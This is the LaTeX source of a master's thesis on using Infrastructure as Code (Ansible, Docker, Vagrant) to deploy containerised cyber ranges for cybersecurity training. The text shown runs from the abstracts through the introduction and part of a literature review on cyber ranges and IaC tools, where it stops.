%% FEUP THESIS STYLE for LaTeX2e
%% how to use feupteses (English version)
%%
%% FEUP, JCL & JCF, 31 July 2012
%%
%% PLEASE send improvements to jlopes at fe.up.pt and to jcf at fe.up.pt
%%

%%========================================
%% Commands: pdflatex meic_thesis
%%           bibtex meic_thesis
%%           makeindex meic_thesis (only if creating an index)
%%           pdflatex meic_thesis
%% Alternative:
%%           latexmk -pdf meic_thesis.tex
%% Using the Makefile:
%%           make
%%========================================

%% 2021-07-20: One-sided output by default
\documentclass[11pt,a4paper]{report}
%% For two-sided printing (for dead-tree output) comment previous line
%% and uncomment the next line
%\documentclass[11pt,a4paper,twoside,openright]{report}

%% For iso-8859-1 (latin1), comment next line and uncomment the second line
\usepackage[utf8]{inputenc}
%\usepackage[latin1]{inputenc}

\usepackage{minitoc}

%% MEIC options
%\usepackage[meic]{feupteses}                  % work version
%\usepackage[meic,juri]{feupteses}             % jury version
\usepackage[meic,final]{feupteses}            % final version
%\usepackage[meic,final,onpaper]{feupteses}    % final on paper version

\usepackage{booktabs}
\usepackage{siunitx}
\usepackage{tikz}

%% Additional options for feupteses.sty: 
%% - portugues: titles, etc in portuguese
%% - onpaper: links are not shown (for paper versions)
%% - backrefs: include back references from bibliography to citation place

%% Uncomment the next lines if side by side graphics used
\usepackage[lofdepth,lotdepth]{subfig}
\usepackage{graphicx}
\usepackage{float}

% Listings
\definecolor{cloudwhite}{cmyk}{0,0,0,0.025}  % color


%% Include source-code listings package
\usepackage{listings}
\lstset{ %
 language=C,                        % choose the language of the code
 basicstyle=\footnotesize\ttfamily,
 keywordstyle=\bfseries,
 numbers=left,                      % where to put the line-numbers
 numberstyle=\scriptsize\texttt,    % the size of the fonts that are used for the line-numbers
 stepnumber=1,                      % the step between two line-numbers. If it's 1 each line will be numbered
 numbersep=8pt,                     % how far the line-numbers are from the code
 frame=tb,
 float=htb,
 aboveskip=8mm,
 belowskip=4mm,
 backgroundcolor=\color{cloudwhite},
 showspaces=false,                  % show spaces adding particular underscores
 showstringspaces=false,            % underline spaces within strings
 showtabs=false,                    % show tabs within strings adding particular underscores
 tabsize=2,                         % sets default tabsize to 2 spaces
 captionpos=b,                      % sets the caption-position to bottom
 breaklines=true,                   % sets automatic line breaking
 breakatwhitespace=false,           % sets if automatic breaks should only happen at whitespace
 escapeinside={\%*}{*)},            % if you want to add a comment within your code
 morekeywords={*,var,template,new}  % if you want to add more keywords to the set
}

%%Uncomment to create an index (at the end of the document)
%\makeindex

%% Path to the figures directory
%% TIP: use folder ``figures'' to keep all your figures
\graphicspath{{figures/}}

%%----------------------------------------
%% TIP: if you want to define more macros, use an external file to keep them
%some macro definitions

% format
\newcommand{\class}[1]{{\normalfont\slshape #1\/}}

% entities
\newcommand{\Feup}{Faculdade de Engenharia da Universidade do Porto}

\newcommand{\svg}{\class{SVG}}
\newcommand{\scada}{\class{SCADA}}
\newcommand{\scadadms}{\class{SCADA/DMS}}

\newcommand*{\priority}[1]{\begin{tikzpicture}[scale=0.15]%
    \draw (0,0) circle (1);
    \fill[fill opacity=0.5,fill=black] (0,0) -- (90:1) arc (90:90-#1*3.6:1) -- cycle;
    \end{tikzpicture}}

\newcommand{\specialcell}[2][c]{%
  \begin{tabular}[#1]{@{}c@{}}#2\end{tabular}}

% YAML Listing

\newcommand\YAMLcolonstyle{\color{red}\mdseries}
\newcommand\YAMLkeystyle{\color{blue}}
\newcommand\YAMLvaluestyle{\color{black}\mdseries}

\makeatletter

% here is a macro expanding to the name of the language
% (handy if you decide to change it further down the road)
\newcommand\language@yaml{yaml}

\expandafter\expandafter\expandafter\lstdefinelanguage
\expandafter{\language@yaml}
{
  keywords={true,false,null,y,n},
  keywordstyle=\color{darkgray},
  basicstyle=\YAMLkeystyle,                                 % assuming a key comes first
  rulecolor=\YAMLvaluestyle,
  sensitive=false,
  comment=[l]{\#},
  morecomment=[s]{/*}{*/},
  commentstyle=\color{purple}\ttfamily,
  stringstyle=\YAMLvaluestyle\ttfamily,
  moredelim=[l][\color{orange}]{\&},
  moredelim=[l][\color{magenta}]{*},
  moredelim=**[il][\YAMLcolonstyle{:}\YAMLvaluestyle]{:},   % switch to value style at :
  morestring=[b]',
  morestring=[b]",
  literate =    {---}{{\ProcessThreeDashes}}3
                {>}{{\textcolor{red}\textgreater}}1     
                {|}{{\textcolor{red}\textbar}}1 
                {\ -\ }{{\mdseries\ -\ }}3,
}

\lst@AddToHook{EveryLine}{\ifx\lst@language\language@yaml\YAMLkeystyle\fi}
\makeatother

\newcommand\ProcessThreeDashes{\llap{\color{cyan}\mdseries-{-}-}}
%%----------------------------------------

%%========================================
%% Start of document
%%========================================
\begin{document}

\dominitoc

%%----------------------------------------
%% Information about the work
%%----------------------------------------
\title{Infrastructure as Code for Cybersecurity Training}
\author{Rui Filipe Mendes Pinto}

%% Comment next line if not necessary for degree
%\degree{Programa Doutoral em Engenharia Informática}

%% Uncomment next line for date of submission
%\thesisdate{July 31, 2008}

%% Comment next line copyright text if not used
\copyrightnotice{}

\supervisor{Supervisor}{Rolando Martins}
\supervisor{Co-Supervisor}{Carlos Novo}

%% Uncomment next line if necessary
%\supervisor{Second Supervisor}{Prof.\Name of the Supervisor}

%% Uncomment committee stuff in the final version
%\committeetext{Approved in oral examination by the committee:}
%\committeemember{President}{Prof.\ Name of the President}
%\committeemember{Referee}{Prof.\ Name of the Referee}
%\committeemember{Referee}{Prof.\ Name of the Referee}

%\committeetext{Aprovado em provas públicas pelo Júri:}
%\committeemember{Presidente}{Prof.\ Nome do presidente do júri}
%\committeemember{Arguente}{Prof.\ Nome do arguente do júri}
%\committeemember{Vogal}{Prof.\ Nome do vogal do júri}

%% Uncomment signature line in the final on paper version if used
%\signature

%% Specify cover logo (in folder ``figures'')
\logo{figures/uporto-feup.pdf}

%% Uncomment next line for additional text below the author's name (front page)
\additionalfronttext{Masters Thesis}
%\additionalfronttext{Dissertation Planning}
%%----------------------------------------
%% Preliminary materials
%%----------------------------------------


% remove unnecessary \include{} commands

\begin{Prolog}
  \clearpage\phantom{}
  \chapter*{Abstract}
%\addcontentsline{toc}{chapter}{Resumo}

An organization's infrastructure rests upon the premise that cybersecurity professionals have specific knowledge in administrating and protecting it against outside threats. Without this expertise, sensitive information could be leaked to malicious actors and cause damage to critical systems. These attacks tend to become increasingly specialized, meaning cybersecurity professionals must ensure proficiency in specific areas. Naturally, recommendations include creating advanced practical training scenarios considering realistic situations to help trainees gain detailed knowledge. However, the caveats of high-cost infrastructure and difficulties in the deployment process of this kind of system, primarily due to the manual process of pre-configuring software needed for the training and relying on a set of static Virtual Machines, may take much work to circumvent.

In order to facilitate this process, our work addresses the use of Infrastructure as Code (IaC) and DevOps to automate the deployment of cyber ranges. An approach closely related to virtualization and containerization as the code's underlying infrastructure helps lay down this burden. Notably, placing emphasis on using IaC tools like Ansible eases the process of configuration management and provisioning of a network. Therefore, we start by focusing on understanding what the \textit{state-of-the-art} perspectives lack and showcasing the benefits of this new working outlook. Lastly, we explore several up-to-date vulnerabilities that are constantly messing with the lives of individuals and organizations, most related to Privilege Escalation, Remote Code Execution attacks, and Incident Forensics, allowing the improvement of skills concerning Red team and Blue team scenarios. The analysis of the attacks and exploitation of such vulnerabilities are carried out safely due to a sandbox environment.

The expected results revolve around using IaC to deploy a set of purposely-designed cyber ranges with specific challenges. The main objective is to guarantee a complexity of scenarios similar to what we can observe in enterprise-level networks. Thus, this entails having a set of playbooks that can be run in a machine or laboratory, assuring the final state of the network is consistent. We expect this deployment strategy to be cost-effective, allowing the trainee to get deep insight into a wide range of situations.

Nowadays, DevOps solutions work as a silver bullet against the issues derived from old-case-driven approaches for setting up scenarios. In short, one of the key takeaways of this work is contributing to better prepare specialists in ensuring that the principles of the National Institute of Standards and Technology (NIST) Cybersecurity Framework hold, namely: prevent, detect, mitigate, and recover.\\

\newcommand{\titles}[2]{\noindent\textbf{#1:} #2\\[2mm]}

\titles{Keywords}{\textit{Infrastructure as Code, DevOps, Cyber Range, Cybersecurity, Virtualization}}


\clearpage\phantom{}

\chapter*{Resumo}
%\addcontentsline{toc}{chapter}{Abstract}

A infraestrutura de uma organização pressupõe que os profissionais de cibersegurança têm conhecimento específico em administrar e proteger a mesma contra ameaças externas. Sem este nível de especialização, informação sensível poderia ser comprometida e exposta a atores maliciosos, cujo intuito final seria causar dano aos sistemas chave da infraestrutura. Estes tipo de ataques tende a ficar cada vez mais especializado fazendo com que os profissionais na área de cibersegurança tenham de garantir proficiência na área onde operam. Naturalmente, recomendações incluem a criação de cenários avançados para treino prático onde situações realistas são consideradas com o intuito de ajudar os profissionais a ganhar conhecimento detalhado. No entanto, problemas relacionados com o custo elevado da infraestrutura e dificuldades no processo de \textit{deployment}, sobretudo devido ao processo manual de pré-configuração do \textit{software} necessário para o treino e da dependência em VMs estáticas, estão associadas a uma elevada quantidade de trabalho.

Para facilitar este processo, o nosso trabalho aborda o uso de \textit{Infrastructure as Code} (\textit{IaC}) e \textit{DevOps} como formar de automatizar o processo de \textit{deployment} de \textit{cyber ranges}. Uma abordagem estreitamente relacionada com virtualização e \textit{containerization}, no que diz respeito à estrutura subjacente do código da infraestrutura, permite aliviar todo este processo. Notavelmente, o uso de programas relacionados com \textit{IaC}, como o Ansible, facilitam todo o processo de configuração e provisionamento de uma rede. Desta forma, o foco inicial do trabalho começa por entender quais as necessidades face ao presente Estado da Arte e demonstrar os benefícios inerentes à nova metodologia de trabalho adotada. Por último, variadas vulnerabilidades referentes a situações que afetam constantemente o quotidiano de indivíduos e organizações serão exploradas, a maioria relacionada com \textit{Privilege Escalation}, \textit{Remote Code Execution} e \textit{Incident Forensics}, permitindo assim a aprimoração de \textit{skills} relacionadas com cenários \textit{Red team} e \textit{Blue team}. A análise deste tipo de ataques e a exploração destas vulnerabilidades serão realizadas com a devida segurança devido à existência de \textit{sandboxing} proveniente dos \textit{containers}.

Os resultados esperados oscilam em torno do uso de \textit{IaC} para criar um grupo de \textit{cyber ranges} projetadas com um conjunto de desafios específicos. O principal objetivo é garantir uma complexidade de cenários ao nível de redes empresariais. Esta lógica implica desenvolver um conjunto de \textit{playbooks} com o intuito de serem executados numa máquina ou laboratório, assegurando um estado consistente da rede final. Espera-se que esta execução seja de baixo custo, permitindo ao profissional aprofundar o seu conhecimento tendo por base um conjunto variado de situações.

Recentemente, soluções baseadas em \textit{DevOps} tendem a ser as mais eficazes face aos problemas derivados de abordagens mais antigas, no que diz respeito à configuração deste tipo de cenários. Em suma, pretende-se com este trabalho melhor preparar os especialistas na área de cibersegurança, assegurando os princípios do \textit{National Institute of Standards and Technology (NIST) Cybersecurity Framework}, nomeadamente: prevenir, detetar, mitigar e recuperar. \\

\titles{Palavras-chave}{\textit{Infrastructure as Code, DevOps, Cyber Range, Cibersegurança, Virtualização}} % the abstract
  \clearpage\phantom{}
  \chapter*{Agradecimentos}
%\addcontentsline{toc}{chapter}{Agradecimentos}

Aliquam id dui. Nulla facilisi. Nullam ligula nunc, viverra a, iaculis
at, faucibus quis, sapien. Cum sociis natoque penatibus et magnis dis
parturient montes, nascetur ridiculus mus. Curabitur magna ligula,
ornare luctus, aliquam non, aliquet at, tortor. Donec iaculis nulla
sed eros. Sed felis. Nam lobortis libero. Pellentesque
odio. Suspendisse potenti. Morbi imperdiet rhoncus magna. Morbi
vestibulum interdum turpis. Pellentesque varius. Morbi nulla urna,
euismod in, molestie ac, placerat in, orci. 

Ut convallis. Suspendisse luctus pharetra sem. Sed sit amet mi in diam
luctus suscipit. Nulla facilisi. Integer commodo, turpis et semper
auctor, nisl ligula vestibulum erat, sed tempor lacus nibh at
turpis. Quisque vestibulum pulvinar justo. Class aptent taciti
sociosqu ad litora torquent per conubia nostra, per inceptos
himenaeos. Nam sed tellus vel tortor hendrerit pulvinar. Phasellus
eleifend, augue at mattis tincidunt, lorem lorem sodales arcu, id
volutpat risus est id neque. Phasellus egestas ante. Nam porttitor
justo sit amet urna. Suspendisse ligula nunc, mollis ac, elementum
non, venenatis ut, mauris. Mauris augue risus, tempus scelerisque,
rutrum quis, hendrerit at, nunc. Nulla posuere porta orci. Nulla dui. 

Fusce gravida placerat sem. Aenean ipsum diam, pharetra vitae, ornare
et, semper sit amet, nibh. Nam id tellus. Etiam ultrices. Praesent
gravida. Aliquam nec sapien. Morbi sagittis vulputate dolor. Donec
sapien lorem, laoreet egestas, pellentesque euismod, porta at,
sapien. Integer vitae lacus id dui convallis blandit. Mauris non
sem. Integer in velit eget lorem scelerisque vehicula. Etiam tincidunt
turpis ac nunc. Pellentesque a justo. Mauris faucibus quam id
eros. Cras pharetra. Fusce rutrum vulputate lorem. Cras pretium magna
in nisl. Integer ornare dui non pede. 

\vspace{10mm}
\flushleft{O Nome do Autor}
  % the acknowledgments
  \clearpage\phantom{}
  \cleardoublepage
\thispagestyle{plain}

\vspace*{8cm}

\begin{flushright}
   \textsl{``You should be glad that bridge fell down. \\
           I was planning to build thirteen more to that same design''} \\
\vspace*{1.5cm}
           Isambard Kingdom Brunel
\end{flushright}
    % initial quotation if desired
  \clearpage\phantom{}
  %\cleardoublepage
  \pdfbookmark[0]{Table of Contents}{contents}
  \tableofcontents
  %\cleardoublepage
  \pdfbookmark[0]{List of Figures}{figures}
  \listoffigures
  %\cleardoublepage
  \clearpage\phantom{}
  \pdfbookmark[0]{List of Tables}{tables}
  \listoftables
  %\cleardoublepage
  \clearpage\phantom{}
  \pdfbookmark[0]{List of Listings}{listings}
  \lstlistoflistings
  \clearpage\phantom{}
  \chapter*{Abbreviations}

\begin{flushleft}
\begin{tabular}{l p{0.8\linewidth}}
IaC      & Infrastructure as Code\\
VM       & Virtual Machine\\
CR       & Cyber Range\\
CVE      & Common Vulnerabilities and Exposures\\
DoS      & Denial of Service\\
RCE      & Remote Code Execution\\
NIST     & National Institute of Standards and Technology\\
SUID     & Set-user Identification\\
UDF      & User Defined Function\\
LFI      & Local File Inclusion\\
LMS      & Learning Management System\\
IDS      & Intrusion Detection System\\
VPN      & Virtual Private Network\\
KVM      & Kernel-based Virtual Machine\\
API      & Application Programming Interface\\
CTF      & Capture The Flag\\
\end{tabular}
\end{flushleft}

  % the list of abbreviations used
\end{Prolog}

%%----------------------------------------
%% Body
%%----------------------------------------
\StartBody

%% TIP: use a separate file for each chapter
\chapter{Introduction} \label{chap:intro}

\minitoc

\section{Context} \label{sec:context}

The evolution of cybersecurity during the twenty-first century brought many challenges to professionals in the field. Recent events involving data breaches, phishing attacks, Ransomware, insider threats, DoS attacks, among many others, pose risks to businesses, organizations, and society \citep{cyber_warfare_ref}. Cyber attacks, as part of cybercrime, are estimated to cost companies worldwide an estimated \$10.5 trillion annually by 2025\footnote{\url{https://www.embroker.com/blog/cyber-attack-statistics/}}. Unfortunately, global spending on protection against cyber attacks is much lower than the damage they cause. Consequently, victims face financial losses, reputation damage, and sometimes legal actions against them, claiming there were insufficient security mechanisms before the attack was inflicted \citep{cyber_challenges_ref}.

The knowledge needed to face these cutting-edge challenges needs to be improved in the current cybersecurity workforce and is predicted to widen over the coming years, according to studies \citep{cyber_range_nist_reg}. To invert this trend, practical training in this field is required. Therefore, cyber ranges provide hands-on and specialized education and training for cybersecurity professionals via realistic testing environments with purposely vulnerable services aiming to improve the preparation and awareness of the cybersecurity workforce \citep{cr_and_security_testbeds_ref, leaf_ref}. More related to education, this type of training is also suited for academic purposes, for instance, on courses that want to introduce the concept of Ethical Hacking via hands-on experiments.

\section{Problem} \label{sec:problem}

Preparing cybersecurity professionals to better respond to incidents using cyber ranges is costly due to the infrastructure complexity these setups may require and because the development of new scenarios is mostly a manual process. With paper and pencil training, it is possible to go over a vulnerable scenario, but details on how systems respond to incidents are often lost to the trainee. Moreover, many cyber range deployments are based on old case-driven methodologies that rely on hardware \cite{national_cr_ref} and preconfigured virtualization through Virtual Machines \cite{cyris_ref, cytrone_ref, leaf_ref}. Containerization is starting to emerge \cite{dsp_ref, cyexec_ref} as a more lightweight approach, but configuration management and deployment of these containers is often very specific to each implementation, turning the solution unscalable. For this reason, expanding the current cyber range platforms to diversify scenarios continues to be an issue.

Another possible development regarding cyber ranges is building networks that include containers and Virtual Machines \cite{capturing_flags_ref}. This allows exploration of both generic and kernel vulnerabilities as, contrary to what happens with containers, Virtual Machines do not share the kernel with the host system.

\section{Motivation} \label{sec:motivation}

With all the above situations in mind, the presented work focuses on developing and deploying a cyber range framework and exploring the creation of complex scenarios that the cybersecurity workforce will find helpful in refining their skills. There is a clear need to evolve this type of research so that the development costs are significantly reduced by taking advantage of virtualization techniques.

Lastly, there is a tremendous need to familiarize ourselves with current attack scenarios such as \textit{Log4j} and Ransomware and even old events like the Shellshock vulnerability so that the mistakes that happened in the past do not get repeated in the future.

\section{Goal} \label{sec:goal}

This work will address the deployment automation of the software used for cybersecurity training using an approach based on Infrastructure as Code and DevOps for networking and the relying infrastructure used by these scenarios. Several vulnerabilities will be explored related to Remote Code Execution, web applications, Privilege Escalation, and forensics, which are associated with the daily threats companies face. The ultimate goal is to build a set of playbooks that will automatically deploy, configure and provision container-based environments in a reasonable amount of time and use fewer resources in terms of funds and infrastructure so that the deployment process happens more efficiently. 

Besides, due to the scenarios' containerized nature, running an entire enterprise-level network in a single computer or in the cloud is possible. Notions regarding the safety of the training system are taken into account to ensure that no actual harm reaches the host computer but the sandboxed environment. 

The project will focus on understanding the current stance concerning the evolution of cyber ranges and limitations in \textit{state-of-the-art} methods, pursuing research oriented toward overcoming these limitations.

\section{Structure} \label{sec:structure}

This document is composed of five chapters, structured as follows:

\begin{itemize}
    \item Chapter \ref{chap:intro} (p. \pageref{chap:intro}), \textbf{Introduction}, which presents the problem under study, as well as its motivation
and goal.
    \item Chapter \ref{chap:sota} (p. \pageref{chap:sota}), \textbf{Literature Review}, which begins with an overview of general concepts related to cyber ranges and Infrastructure as Code as a DevOps practice, as well as a thorough analysis of the current research on the topic of cyber ranges and existing technologies.
    \item Chapter \ref{chap:problem_statement} (p. \pageref{chap:problem_statement}), \textbf{Problem Statement} presents the problem under study and the proposed solution.
    \item Chapter \ref{chap:validation} (p. \pageref{chap:validation}), \textbf{Validation}, which focuses on hypothesis validation process of this work. It includes a description of the design and implementation of the solution.
    \item Chapter \ref{chap:conclusion} (p. \pageref{chap:conclusion}), \textbf{Conclusions}, closes with concluding remarks on the dissertation and reflects on the project's core aspects, presenting a summary of the work developed and highlighting possible perspectives for future work.
\end{itemize}
\clearpage\phantom{}
\chapter{Literature Review} \label{chap:sota}

\minitoc

This chapter will focus on analyzing previous research on the topics addressed by this work. This analysis considers fundamental concepts of cyber ranges and IaC, as well as their impact on cybersecurity. Moreover, it will be presented the current stance of cyber ranges, including the different approaches and technologies used.

In Section \ref{sec:methodology} (p. \pageref{sec:methodology}), we overview the methodology used for the literature review. Section \ref{sec:background} (p. \pageref{sec:background}) highlights core concepts necessary for fully comprehending this work. Sections \ref{sec:cyber_ranges} (p. \pageref{sec:cyber_ranges}) focus on analyzing the literature review for the concepts of cyber ranges and their types, randomization, and threats and vulnerabilities haunting them. Finally, Section \ref{sec:summary} (p. \pageref{sec:summary}) summarizes this chapter's findings.

\section{Methodology} \label{sec:methodology}

The research process regarding the analysis of the current research on cyber ranges is based on conference papers, books, and articles published in electronic databases, meaning peers scientifically review them. These databases include IEEE \textit{Xplore}, ACM Digital Library, Science Direct, Springer Link, and Research Gate.

An initial search in Google Scholar for "\texttt{cyber ranges}" returns about 335 000 results which is not surprising given that this subject is rapidly evolving. Therefore, there was a need to reduce the scope of the results obtained.

The methodology used can be summarized as follows:

\begin{itemize}
    \item Initially, usage of several keywords, such as \texttt{Cyber Range}, \texttt{Cybersecurity}, \texttt{Testbed}, \texttt{IaC}.
    \item Later, these terms were combined to reduce the number of retrieved results. Queries were also refined to meet the goals of the work.
    \item At first, these queries were focused in broader terms of the topic, but they soon were refined using a \textit{funneling} strategy. For instance, this meant searching for specific vulnerabilities taken into account in cyber ranges or searching the type of cyber range taken into consideration (based on containers or VMs).
    \item Lastly, after analyzing the retrieved references to see if they met the research topic, the most relevant results were collected.
\end{itemize}

The nature of the research was primarily iterative, using a process of trial and error. Rahman \textit{et al.} \cite{systematic_mapping_ref} presents an example of making search queries on IaC, which was carefully taken into account. Interestingly, it involves a metric called \textit{Quasi-Sensitive Metric} (\textit{QSM}) that takes into account a set of search strings, evaluates the obtained results, and retrieves the ratio of results that were meaningful to the analysis. 

As a result, the most elaborate query used was \texttt{"Cyber Ranges" AND vulnerabilities AND (IaC OR "Infrastructure as Code") AND ("Cyber Security" OR Cybers}\\ \texttt{ecurity)}. As such, it is easy to observe that some articles used "Cyber Security" and others "Cybersecurity", so these variations were needed to consider a broader range of search results. Using this search query in Google Scholar, 44 results are obtained, demonstrating the effect of the applied search restrictions. There were also concerns about the publishing date of the articles, meaning most of the time, the selected articles were just a couple of years old. 

Having mentioned this, it is worth getting general insight into the research topic before diving into specific details. This may not mean considering large amounts of search results to understand the current \textit{state-of-the-art}.

\section{Background Work on Cyber Ranges \& IaC} \label{sec:background}

This section highlights concepts needed to define, describe and expand upon to understand the research topic fully.

\subsection{High-Level View of Cyber Ranges} \label{sec:high_level_cr_explanation}

First and foremost, it is vital to start with the concept of cyber range. Jiang \textit{et al.} \cite{pandora_ref}, defined a cyber range as ``\textit{an environment that provides a realistic environment suitable for conducting `live fire' type of exercises which train computer network operators for cyber defense, and supporting experimentation and testing via a combination of cybersecurity products}''.

Yamin \textit{et al.} \cite{cr_and_security_testbeds_ref} refers some features cyber ranges may contain:

\begin{itemize}
    \item \textit{Scenarios}, which defines the execution environment and the steps of the training exercise. Typically, it is associated with a purpose, domain, and set of tools available to the trainee.
    \item \textit{Monitoring} refers to real-time monitoring of the challenge. It may also be related to the generation of logs that are further used for management purposes of the cyber range.
    \item \textit{Scoring}, where data from the monitoring system is used to assess the trainee's performance and progress. 
    \item \textit{Management}, which involves allocating computational resources required for conducting the exercise or test. 
\end{itemize}

According to Ficco \textit{et al.} \cite{leaf_ref}, cyber range scenarios can be characterized in several ways:

\begin{itemize}
    \item \textit{Defense-oriented} where the trainee tries to implement effective strategies to guarantee that a set of assets belonging to the system are not compromised via external attacks. This kind of scenario often involves finding and fixing misconfigurations, patching vulnerabilities, detecting and locking attacks, and deploying the necessary security mechanisms.
    \item \textit{Attack-oriented} where challenges are mainly focused on information gathering, penetration testing activities, vulnerability discovery, and exploitation techniques. The goal is to simulate the behavior of an attacker by showing how such actions could compromise an entire system.
    \item \textit{Analysis-oriented} where the focus is on the system analysis and forensics activities such as detecting an intrusion and effectively responding to it, finding vulnerabilities, and finding evidence of previous attacks.
\end{itemize}

Different scenarios are directed toward different types of individuals with different interests. Ficco \textit{et al.} \cite{leaf_ref} again mentions that a common practice in the cybersecurity field is to assign a color to a role for easy identification:

\begin{itemize}
    \item \textit{Blue team} aims to defend the assets over their control, inspect and secure systems, and grant business continuity.
    \item \textit{Red team}'s whose aim is to impersonate attackers' behavior and compromise systems. Usually, this team represents an external threat to a corporate network, but they can impersonate insiders in particular situations.
    \item \textit{Purple team}, a collaborative approach that brings together both \textit{Red team} and \textit{Blue team} to improve a corporate network's security posture.
\end{itemize}

The concept of a cyber range is connected to the competitive hacking challenges, Capture the Flag (CTF) competitions which have become a mainstay in the industry. CTF activities are widely used for educational purposes as an effective way to provide and assess engaging hands-on security challenges \cite{secgen_ref}. Platforms such as Vulnhub\footnote{\url{https://www.vulnhub.com/}}, Hack The Box\footnote{\url{https://www.hackthebox.com/}} or TryHackMe\footnote{\url{https://tryhackme.com/}} are valuable resources for those wanting to learn and advance their skills in computer security. However, developing these hacking challenges is time-consuming, and the outcome is static and independent from future challenges.

\subsection{Deployment of Cyber Ranges} \label{sec:features_cr}

Cyber ranges involve a realistic and repeatable simulation that ensures trainees develop their skills in certain areas of cybersecurity. Typically, cyber ranges are implemented in isolated environments as the purposely vulnerable scenarios are too dangerous to run in an actual environment. As a result, there is a need to define building blocks related to hardware and software.

Noponen \textit{et al.} \cite{cybersecurity_threat_and_mitigations_ref} refers to the possibility of deploying a cyber range on an organization's physical environment, something that is often very costly but better suited for exercises where security and privacy are fundamental. Another possibility would be to host the cyber range in a public or private cloud. 

On public clouds, there could be limitations related to certain kinds of attacks, such as Denial of Service. Private clouds are more flexible as they are maintained by private entities, which entails complete infrastructure control. Lastly, there is also the chance of running an entire enterprise-level network in a single laptop using virtualization techniques, possibly expanding to more complex infrastructures.

Nowadays, cyber range development is mainly related to virtualization and containerization techniques since they provide a cost-effective, scalable solution and are easy to control and reinitialize.

\subsection{DevOps and Infrastructure as Code} \label{sec:devops_and_iac}

DevOps ``\textit{is the combination of cultural philosophies, practices, and tools that increases an organization's ability to deliver applications and services at high velocity: evolving and improving products at a faster pace than organizations using traditional software development and infrastructure management processes}'' \cite{aws_what_is_devops_ref}. Among the DevOps recommended practices, we find Infrastructure as Code, ``\textit{a practice in which infrastructure is provisioned and managed using code and software development techniques, such as version control and continuous integration}'' \cite{aws_what_is_devops_iac_ref}. More specifically, IaC is frequently used in deployment automation.

Masek \textit{et al.} \cite{unleashing_full_potential_of_ansible_ref} interestingly creates the concept of \textit{snowflake} pointing to systems where administration and maintenance of the infrastructure require manual labor, which often leads to errors that are hard to keep track of. Therefore, the need for idempotency --- ``\textit{the property that a deployment command always sets the target environment into the same configuration, regardless of the environment's starting state}'' is offered by IaC.

Nogueira \cite{automating_open_source_up_ref} mentions two approaches concerning IaC: declarative or imperative/procedural. On the one hand, the declarative approach describes the target configuration of the system and runs the necessary steps to ensure the final state is consistent with what was specified. On the other hand, the imperative approach describes the operations that change the infrastructure — executing these instructions following the order in which they were specified guarantees the system's desired state. 

Different methods can be used to send the necessary configurations to the target machine. One can use a push method, meaning the master machine pushes the configuration to the destination machine. The pull method can also be used if the machine configured fetches the information from the master machine.

IaC supports different types of architectures: mutable or immutable. A mutable architecture provides flexibility, as the infrastructure's configuration may change. Instead, in an immutable architecture, the infrastructure cannot be changed, meaning changes to the current infrastructure are more costly as there is a need to shut down and re-deploy it for the changes to take effect.

\subsection{Infrastructure as Code Tools} \label{sec:iac_tools}

Nogueira \cite{automating_open_source_up_ref} points out several tools that are time and again associated with the concept of IaC:

\begin{itemize}
    \item \textit{Docker}, which uses virtualization at the operating system level to create isolated containers that allow to build, test, and deploy applications quickly. 
    \item \textit{Ansible}, a configuration management tool used to configure and provision target machines. It makes use of playbooks to specify the desired state of the target. 
    \item \textit{Vagrant}, a tool that makes use of Provisioners (e.g., Puppet, Ansible, Chef) and Providers (Docker, VirtualBox, Hyper-V) to create portable virtual environments. 
    \item \textit{Kubernetes}, an orchestration tool used for managing containers on a node cluster, being nodes machines composed by container runtimes, such as Docker, and where containers are deployed. Besides, groups of containers, often referred to as pods, are subject to scheduling tasks.
    \item \textit{Chef}, another configuration management tool similar to Ansible. It uses the concept of recipes to describe the infrastructure's configuration and how to manage it. It also introduces the idea of \textit{cookbooks} to simplify management tasks.
    \item \textit{Terraform}, a resource management tool also related to infrastructure task automation.
    \item \textit{Puppet}, a tool similar to Ansible and Chef that uses Puppet manifests, compiled into resources in the target system, to describe the final system state.
    \item \textit{SaltStack}, a configuration management tool built around the idea that it exists a master node that controls one or more Minions. Communications within the master and minion(s) occur using a ZeroMQ message bus.
    \item \textit{CloudFormation} is an orchestration tool used to model and set up AWS resources, handling all the required configuration and provisioning tasks.
\end{itemize}

Table \ref{tab:comparison_iac_tools} (p. \pageref{tab:comparison_iac_tools}) presents a high-level overview of the main differences between these technologies.

\begin{table}[H]
  \caption{Comparison of Popular Infrastructure as Code Tools \cite{unleashing_full_potential_of_ansible_ref}.}
\scalebox{0.8}{
\begin{tabular}{ | c | c | c | c | c | c | c | }
\hline
\empty & \textbf{Chef} & \textbf{Puppet} & \textbf{Ansible} & \textbf{SaltStack} & \textbf{CloudFormation} & \textbf{Terraform}  \\ 
\hline
Code & Open & Open & Open & Open & Closed & Open \\  
\hline
Cloud & All & All & All & All & AWS only & All \\
\hline
Type & Config Mgmt & Config Mgmt & Config Mgmt & Config Mgmt & Orchestration & Orchestration \\
\hline
Infrastructure & Mutable & Mutable & Mutable & Mutable & Immutable & Immutable \\
\hline
Language & Procedural & Declarative & Procedural & Declarative & Declarative & Declarative \\
\hline
Architecture & Client/Server & Client/Server & Client-only & Client/Server & Client-only & Client-only \\
\hline
\end{tabular}}
  \label{tab:comparison_iac_tools}
\end{table}

\subsection{Selected Tools} \label{sec:selected_tools}

This section describes the main tools used during the project's development: Docker, Ansible, Tailscale, and Vagrant. Each of these tools will be addressed with a certain degree of detail, and aspects related to how they were used within the context of our work will be presented in later chapters. Many of the tools presented in Table \ref{tab:comparison_iac_tools} (p. \pageref{tab:comparison_iac_tools}) could have been picked for the project. Still, we chose the following ones for their easiness in developing a meaningful solution for our hypothesis.

\subsubsection{Docker} \label{sec:selected_tools_docker}

Docker is an open-source platform that allows automated deployments, scaling, and management of applications using containers. These containers are lightweight and loosely isolated environments that encapsulate applications, their dependencies, libraries, frameworks, and system tools. With this, Docker ensures a standardized way of packaging and distributing applications across different platforms and environments in a reliable and consistent manner. As a developer, the need to individually install an application on a new environment and concerns related to the fact that the application may not work are now excluded due to the usage of Docker. 

Docker's main advantages include:

\begin{itemize}
    \item \textit{Portability}, as containers can run on any system that has Docker installed, regardless of the underlying operating system or hardware, which makes it easy to move applications across different environments, such as development, testing, and production, without worrying about compatibility issues, as explained above.
    \item \textit{Isolation}, as each Docker container operates in its own isolated environment, ensuring the applications and their respective dependencies are kept separate.
    \item \textit{Efficiency}, because of how lightweight containers are, as they share the host's kernel, meaning minimal overhead when compared to running applications in Virtual Machines.
    \item \textit{Dependency Management}, as applications can be packaged along with their required dependencies into a container image, eliminating the need to install multiple dependencies manually on the host and ensuring consistency in the deployed environments.
